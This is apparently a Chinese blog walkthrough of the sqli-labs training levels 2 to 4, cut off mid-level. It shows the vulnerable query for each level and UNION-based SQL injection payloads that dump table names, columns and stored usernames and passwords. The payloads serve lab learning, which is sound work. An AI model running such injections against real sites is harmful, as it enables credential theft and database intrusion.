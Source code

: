 ![11](/img/2018-07-20/11.png)
第一关就算是过了
##### less-2
第二关和第一关如出一辙，只不过id后面的内容没有引号引起来，php代码对比如下
```
SELECT * FROM users WHERE id='$id' LIMIT 0,1
#第一关
SELECT * FROM users WHERE id=$id LIMIT 0,1
第二关
```
所以我们把paylaod的`id-1`后面的单引号去掉就好了甚至注释符都不用
payload如下
```
id=-1 union select 1,2,database()
id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security'
id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users'
id=-1 union select 1,group_concat(username),group_concat(password) from users
```
第二关完
##### less-3
第三关
```
SELECT * FROM users WHERE id=('$id') LIMIT 0,1
```
多了括号，直接上payload吧
```
id=-1') union select 1,2,database() -- +
```
就不多列了
##### less-4
第四关
这次有点不同，当我们测试`id=1'`时返回页面是正常的，测试`id=1"`报错